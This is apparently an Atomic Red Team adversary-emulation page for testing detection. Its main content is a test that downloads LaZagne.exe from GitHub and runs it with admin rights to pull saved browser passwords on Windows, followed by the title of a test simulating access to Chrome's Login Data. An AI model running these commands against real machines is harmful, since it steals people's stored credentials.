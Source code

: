 




<br/>
<br/>

## Atomic Test #3 - LaZagne - Credentials from Browser
The following Atomic test utilizes [LaZagne](https://github.com/AlessandroZ/LaZagne) to extract passwords from browsers on the Windows operating system.
LaZagne is an open source application used to retrieve passwords stored on a local computer.

**Supported Platforms:** Windows


**auto_generated_guid:** 9a2915b3-3954-4cce-8c76-00fbf4dbd014





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| lazagne_path | Path to LaZagne | path | PathToAtomicsFolder&#92;T1555.003&#92;bin&#92;LaZagne.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{lazagne_path}" browsers
```




#### Dependencies:  Run with `powershell`!
##### Description: LaZagne.exe must exist on disk at specified location (#{lazagne_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{lazagne_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{lazagne_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.5/LaZagne.exe" -OutFile "#{lazagne_path}"
```




<br/>
<br/>

## Atomic Test #4 - Simulating access to Chrome Login Data
Simulates an adversary accessing encrypted credentials from Google Chrome Login database.

